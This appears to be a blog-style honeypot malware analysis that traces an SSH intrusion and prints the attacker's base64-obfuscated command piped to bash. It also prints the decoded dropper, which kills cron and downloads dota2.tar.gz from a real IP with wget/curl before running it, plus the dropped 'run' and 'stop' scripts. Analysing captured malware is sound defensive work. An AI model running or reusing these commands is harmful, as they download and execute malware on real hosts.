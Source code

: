 ### What the cat brought home

I was looking at my honey pot this morning and I saw a what looked like base64 strings. A lot of time attackers like base64 because it makes it easy for them to bypass detection or even becuase it can ensure that
the string is still the same when ran. The attacker used the login, root/jinsheng to gain access to the honey pot. The Ip address used was: ```54.37.136.183```
In figure 1, we can see the actually command that the attacker used. 
```ruby 
cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
Figure 1: the command used to download the malware.
As seen in Figure 1, the attacker first changed the directory to ```/var/tmp````. After changing the directory the base64 encoded string is decoded and than run. In Figure 2, we can see the
decoded base64 string.

```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
Figure 2: the decoded base64 string
As seen in figure 2, the base64 removes the directory ```.X15-unix``` and then creates a new directory named the same thing.
After it creates a new directory the script changes to the newly created directory and also kills the cron process.
Next the the attacker downloads a .tar.gz file from ```http://54.37.70.249/dota2.tar.gz```. 
The script will than change directories to the .rsync and give the all the files in the dirctories permissions, after that it will run the
files ```a``` and ```cron```.


### A Look into the files dropped

In Figure 3, we can see that there is a bunch of folders and files inside the .tz. The attackers used
![Octocat](https://i.imgur.com/jmoC3qM.png=100x20)
Figure 3: the untar-ed contents of ```dota2.tar.gz```

In Figure 4,  we take a peak inside the file at ```a/run``` we can see that its a bash script that job is to check what arch the host machine is using and then runs the correct file. 
```ruby
#!/bin/bash
./stop
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
	if [ "$ARCH" == "i686" ]; then
		nohup ./anacron >>/dev/null & 
	elif [ "$ARCH" == "x86_64" ];   then
		./cron || ./anacron
	fi
echo $! > bash.pid
```
Figure 4: the contents of ```a/run```

In Figure 3, we can see that the ```a/run``` file runs a file called ```./stop```. In Figure 5, we can see that its job is kill any running proccesss called cron. The stop script also removes the file named ```.proc```.

```ruby#!/bin/sh
pkill -9 cron
killall -9 cron
kill -9 `ps x|grep cron|grep -v grep|awk '{print $1}'`>.proc
rm -rf .proc
```
Figure 5: the contents of ```a/stop```.
